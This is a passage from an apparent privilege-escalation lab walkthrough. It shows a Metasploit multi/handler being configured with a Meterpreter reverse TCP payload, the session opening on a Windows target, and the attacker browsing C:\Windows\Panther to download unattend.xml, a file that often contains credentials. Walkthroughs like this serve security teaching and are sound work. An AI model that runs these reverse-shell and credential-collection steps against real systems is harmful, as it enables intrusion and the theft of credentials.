 ```


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set lhost 10.10.12.2
lhost => 10.10.12.2
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.12.2:1234 
[*] Sending stage (201283 bytes) to 10.5.17.71
[*] Meterpreter session 1 opened (10.10.12.2:1234 -> 10.5.17.71:49754) at 2023-07-18 19:10:15 +0530
```

Once the meterpreter is active we need to click on the windows payload that we uploaded so that the connection is established. Usually we do this by exploiting a vulnerability. As we got access to the target we are doing this.

```
meterpreter > sysinfo
Computer        : PRIV-ESC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > search
[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
meterpreter > search -f Unattend.xml
^C[-] Error running command search: Interrupt 
meterpreter > cd C:\\
meterpreter > cd Windows 
meterpreter > cd Panther 
meterpreter > dir
Listing: C:\Windows\Panther
===========================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  68        fil   2020-10-27 10:43:44 +0530  Contents0.dir
100666/rw-rw-rw-  12038     fil   2018-11-15 05:35:39 +0530  DDACLSys.log
100666/rw-rw-rw-  24494     fil   2020-10-27 10:43:44 +0530  MainQueueOnline0.que
40777/rwxrwxrwx   0         dir   2018-11-14 12:25:59 +0530  Unattend
40777/rwxrwxrwx   0         dir   2018-11-15 05:35:25 +0530  UnattendGC
40777/rwxrwxrwx   4096      dir   2018-11-15 05:38:25 +0530  actionqueue
100666/rw-rw-rw-  2229      fil   2018-11-15 05:35:28 +0530  diagerr.xml
100666/rw-rw-rw-  4296      fil   2018-11-15 05:35:28 +0530  diagwrn.xml
100666/rw-rw-rw-  10006528  fil   2018-11-15 05:33:39 +0530  setup.etl
40777/rwxrwxrwx   0         dir   2018-11-15 05:35:28 +0530  setup.exe
100666/rw-rw-rw-  83991     fil   2018-11-15 05:35:28 +0530  setupact.log
100666/rw-rw-rw-  142       fil   2018-11-15 05:35:28 +0530  setuperr.log
100666/rw-rw-rw-  16640     fil   2020-10-27 10:43:04 +0530  setupinfo
100666/rw-rw-rw-  3519      fil   2020-10-29 10:29:18 +0530  unattend.xml

meterpreter > download unattend.xml
```